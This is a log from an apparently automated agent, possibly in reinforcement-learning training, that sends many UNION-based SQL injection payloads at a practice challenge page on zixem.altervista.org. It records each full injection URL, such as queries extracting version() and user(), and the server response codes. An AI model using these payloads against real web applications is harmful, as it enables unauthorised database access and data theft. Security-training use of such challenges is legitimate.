Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2589/1000000 [14:31:25<6147:12:29, 22.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2590/1000000 [14:31:26<4366:04:41, 15.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server res

  0%|          | 2591/1000000 [14:31:59<5786:39:59, 20.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2592/1000000 [14:32:00<4147:28:49, 14.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2593/1000000 [14:32:01<2969:23:37, 10.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2594/1000000 [14:32:03<2231:52:36,  8.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2595/1000000 [14:32:03<1629:06:56,  5.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervis

  0%|          | 2596/1000000 [14:33:06<6322:51:10, 22.82s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2597/1000000 [14:33:06<4485:37:41, 16.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2598/1000000 [14:33:08<3275:10:54, 11.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2599/1000000 [14:33:09<2372:25:04,  8.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2600/1000000 [14:33:10<1732:00:30,  6.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2601/1000000 [14:33:12<1353:44:11,  4.89s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2602/1000000 [14:33:14<1118:25:35,  4.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2603/1000000 [14:33:14<851:53:27,  3.07s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2604/1000000 [14:33:15<662:46:01,  2.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version()

  0%|          | 2605/1000000 [14:33:32<1861:44:08,  6.72s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2606/1000000 [14:33:33<1365:31:35,  4.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2607/1000000 [14:33:35<1101:39:56,  3.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2608/1000000 [14:33:35<836:45:17,  3.02s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2609/1000000 [14:33:36<649:28:22,  2.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2610/1000000 [14:33:37<519:37:57,  1.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2611/1000000 [14:33:38<433:13:53,  1.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax e

  0%|          | 2612/1000000 [14:34:39<5385:54:52, 19.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--


  0%|          | 2613/1000000 [14:35:29<7948:04:46, 28.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2614/1000000 [14:35:31<5706:50:05, 20.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union selec

  0%|          | 2615/1000000 [14:36:47<10345:49:09, 37.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2616/1000000 [14:36:48<7302:50:06, 26.36s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. 

  0%|          | 2617/1000000 [14:37:10<6957:00:19, 25.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2618/1000000 [14:37:11<4934:32:14, 17.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 

  0%|          | 2619/1000000 [14:37:50<6691:22:01, 24.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2620/1000000 [14:37:51<4746:33:21, 17.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2621/1000000 [14:37:52<3393:43:38, 12.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2622/1000000 [14:37:52<2440:52:06,  8.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sel

  0%|          | 2623/1000000 [14:38:58<7187:30:16, 25.94s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2624/1000000 [14:38:59<5091:14:36, 18.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2625/1000000 [14:39:00<3625:50:25, 13.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2626/1000000 [14:39:01<2610:25:58,  9.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2627/1000000 [14:39:01<1890:15:27,  6.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2628/1000000 [14:39:02<1387:42:11,  5.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.alterv

  0%|          | 2629/1000000 [14:39:30<3316:04:39, 11.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union

  0%|          | 2630/1000000 [14:39:40<3136:31:26, 11.32s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2631/1000000 [14:39:41<2259:02:20,  8.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2632/1000000 [14:39:42<1642:24:08,  5.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respon

  0%|          | 2633/1000000 [14:40:19<4272:10:27, 15.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2634/1000000 [14:40:20<3053:01:37, 11.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2635/1000000 [14:40:21<2218:04:11,  8.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2636/1000000 [14:40:22<1618:46:04,  5.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2637/1000000 [14:40:23<1193:37:58,  4.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2638/1000000 [14:40:23<900:12:59,  3.25s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax e

  0%|          | 2639/1000000 [14:42:06<9136:10:32, 32.98s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2640/1000000 [14:42:06<6425:35:26, 23.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query 

  0%|          | 2641/1000000 [14:43:03<9268:24:28, 33.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2642/1000000 [14:43:04<6552:38:40, 23.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2643/1000000 [14:43:05<4658:09:17, 16.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=

  0%|          | 2644/1000000 [14:44:10<8623:52:00, 31.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2645/1000000 [14:44:10<6105:15:21, 22.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server re

  0%|          | 2646/1000000 [14:44:24<5387:07:59, 19.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Se

  0%|          | 2647/1000000 [14:44:45<5529:08:10, 19.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union selec

  0%|          | 2648/1000000 [14:45:43<8655:49:54, 31.24s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2649/1000000 [14:45:43<6123:22:52, 22.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2650/1000000 [14:45:44<4352:11:06, 15.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2651/1000000 [14:45:45<3112:45:28, 11.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
